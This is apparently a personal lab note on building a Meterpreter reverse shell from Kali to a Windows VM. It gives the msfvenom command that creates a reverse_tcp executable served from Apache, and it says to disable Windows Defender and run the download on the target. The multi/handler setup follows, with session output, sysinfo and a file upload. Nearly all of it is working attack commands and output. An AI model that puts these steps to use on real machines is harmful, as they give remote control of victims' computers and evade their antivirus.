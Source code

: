 ## shortcut on creating revershell with meterpreter/msf work in progress##

##launch terminal##
# run the following to escalate to root#
~$ sudo su

# run the following to create msfvenom reverse shell payload *.exe and place it into your webserver directory#
┌──(root💀kali )-[/g]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kaliip> -f exe > /var/www/html/fun.exe  


# the wares have been created run the following to start the appache webserver #
┌──(root💀kali )-[/g]
└─# service apache2 start


##### Go to Windows machine ######

### Turn off Windows defender, allow the virus to come thru because it will be detected##

 # Launch browser in windows. download and run executable msfvenom created #
open http://kaliipaddress/fun.exe 

# windows target is ready for expoiting and post exploitation ##

# Launch metasploit #

┌──(root💀kali)-[/g]
└─# msfconsole  


## run the following in metasploit, throw in an options or help command here and there ##
> msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
> msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
> msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
> msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Sending stage (175174 bytes) to <windowsip>
[*] Meterpreter session 1 opened (<kaliip>:4444 -> <windowsip>:2352 ) at 2022-02-28 00:55:06 -0500

# you have now spawned reverse shell with meterpreter # 

> meterpreter > sysinfo
Computer        : DESKTOP-WINDERSDFJ10
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

# open another terminal create a readme.txt to upload to windows computer in meterpreter #

┌──(root💀kali)-[/g]
└─# nano readme.txt  <-- paste in the msfbanner that launched at the beginning

# Go back to meterpreter #

> meterpreter > upload readme.txt
[*] uploading  : /g/readme.txt -> readme.txt
[*] Uploaded 1.39 KiB of 1.39 KiB (100.0%): /g/readme.txt -> readme.txt
[*] uploaded   : /g/readme.txt -> readme.txt
meterpreter > ls
> Listing: C:\Users\Gregster\Downloads

## vefigy that the file is there list and then look at it in windows machine, change directories in meterpreter, stop apache2 call it a night tbc... #

┌──(root💀kali)-[/g]
└─# systemctl stop apache2  

┌──(root💀kali)-[/g]
└─# nmap -p80 localhost          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 01:40 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000086s latency).
Other addresses for localhost (not scanned): ::1

PORT   STATE  SERVICE
80/tcp closed http

# meterpreter
Metasploit/Meterpreter reverse shell from Kali to Windows VM

